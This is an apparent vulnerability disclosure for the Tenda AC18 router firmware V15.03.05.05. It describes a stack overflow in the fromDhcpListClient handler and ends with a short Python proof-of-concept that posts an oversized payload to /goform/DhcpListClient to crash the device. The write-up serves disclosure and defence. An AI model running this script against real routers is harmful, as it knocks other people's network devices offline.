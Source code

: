 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. We can set `LISTEN=1` and the program will enter line 30 and 33, which leads to a stack overflow vulnerability. Since the overflow overrides the `LISTEN` pointer variable, the `atoi` function will crash the program, causing a DOS attack in the second time looping.

![image-20240305215125627](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305215125627.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*2000


data = {"LISTLEN":1,"page":1,"list1": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305214216253](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305214216253.png)

